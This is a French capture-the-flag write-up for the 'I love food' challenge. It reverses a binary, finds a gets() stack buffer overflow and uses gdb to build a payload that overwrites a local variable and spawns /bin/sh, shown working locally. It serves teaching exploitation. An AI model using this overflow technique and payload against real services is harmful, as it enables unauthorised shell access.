 # I love food !

Sujet :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

[Cet exécutable](./i_love_food) est fournis. Essayons le :

```console
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

Le programme demande une entrée de l'utilisateur, et s'arrête. Explorons le code.

## Reverse

Avec ghidra on obtient le code suivant :

```C
undefined8 main(void)

{
  setup();
  vuln();
  return 0;
}
```

```C
void vuln(void)

{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

On veut exécuter la commande `system("/bin/sh");` dans la fonction vuln() pour obtenir un shell. Il faut donc valider la condition `if (local_c == 0xf00df00d)`.  
  
La fonction gets() utilisé pour récupérer l'entrée de l'utilisateur étant vulnérable à un buffer overflow, on comprend qu'il faut utiliser cette faille pour modifier la variable local_c.

## Payload

Utilisons gdb pour trouver notre exploit :

```console
$ gdb i_love_food -q   
Reading symbols from i_love_food...
(No debugging symbols found in i_love_food)
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

On lance gdb, ajoute un break après l'appel de la fonction gets, et rentre 44 charactères A pour remplir le buffer utilisé pour stocker l'entrée de l'utilisateur. En observant la stack on voit que la variable local_c contenant `deadbeef` est stocké directement après. Essayons de la modifier :

```console
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
(gdb) c
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

On arrive bien au message de succès mais le programme plante en essayant de lancer le shell. Testons le payload directement sur le binaire :

```console
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

Le programme lance bien /bin/sh, le payload final est donc `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Il faut maintenant se connecter au service et envoyer le payload. On utilise donc [ce script python](./exploit.py) qui permet de ce connecter au serveur, envoyer le payload, puis d'interagir avec le shell pour obtenir le flag.
